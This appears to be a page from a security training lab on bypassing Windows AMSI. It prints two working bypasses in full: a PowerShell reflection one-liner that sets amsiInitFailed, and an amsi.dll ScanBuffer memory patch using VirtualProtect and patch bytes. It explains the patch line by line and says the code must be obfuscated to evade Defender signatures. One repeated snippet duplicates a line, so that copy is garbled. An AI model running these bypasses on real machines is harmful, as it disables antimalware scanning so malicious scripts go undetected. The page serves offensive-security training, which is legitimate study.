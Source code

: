 Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell and C#.  

There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade

For more information about the variety of bypasses available, check out this GitHub repo, [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

We will be looking at the `Matt Graeber reflection method` as well as patching `amsi.dll`.

The first bypass we will be looking at utilizes native PowerShell reflection to set the response value of AMSI to `$null`. Find the PowerShell code written by Matt Graeber below.

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

The second method we will be looking at is patching amsi.dll written in PowerShell. This bypass is modified by BC-Security inspired by Tal Liberman, [https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py](https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py). RastaMouse also has a similar bypass written in C# that uses the same technique, [https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs).The bypass will identify DLL locations and modify memory permissions to return undetected AMSI response values.

```
$MethodDefinition = "  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetModuleHandle(string lpModuleName);  
  
    [DllImport(`"kernel32`")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
";  
  
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);  
[UInt32]$Size = 0x5;  
[UInt32]$ProtectFlag = 0x40;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);   
  
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

This may seem like a lot of fancy and chopped-up code if you are unfamiliar with Windows architecture and PowerShell, but we can break it up and identify what each section of code does.  

The first section of code lines 3 - 10 will use C# to call-in functions from Kernel32 to identify where amsi.dll has been loaded.

```
[DllImport(`"kernel32`")]  
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]  
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]  
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

Once the C# functions are called in, the code will use Add-type to load the C# and identify the `AmsiScanBuffer` string in lines 13 - 16. This string can be used to determine where `amsi.dll` has been loaded and the address location using `GetProcAddress`.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
```

The next section of code lines 17 - 23 will modify memory permissions and patch `amsi.dll` to return a specified value.

```
[UInt32]$Size = 0x5;  
[UInt32]$Size = 0x5;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

At this stage, we should have an AMSI bypass that partially works. Signatures for most AMSI bypasses have been crafted, so this means that AMSI and Defender themselves will catch these bypasses. This means <u>we will need to obfuscate our code</u> a slight bit to evade signatures. AMSI obfuscation will be covered in the next task.  

For more information about AMSI bypasses, check out the following resources.  

- [](https://offensivedefence.co.uk/posts/making-amsi-jump/)[https://offensivedefence.co.uk/posts/making-amsi-jump/](https://offensivedefence.co.uk/posts/making-amsi-jump/)
- [](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)[https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
- [](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)[https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)
- [](https://blog.f-secure.com/hunting-for-amsi-bypasses/)[https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
- [](https://www.contextis.com/us/blog/amsi-bypass)[https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)
- [](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)[https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)
- [https://amsi.fail/](https://amsi.fail/)[](https://amsi.fail/)
- [](https://rastamouse.me/blog/asb-bypass-pt2/)[https://rastamouse.me/blog/asb-bypass-pt2/](https://rastamouse.me/blog/asb-bypass-pt2/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)
- [https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)

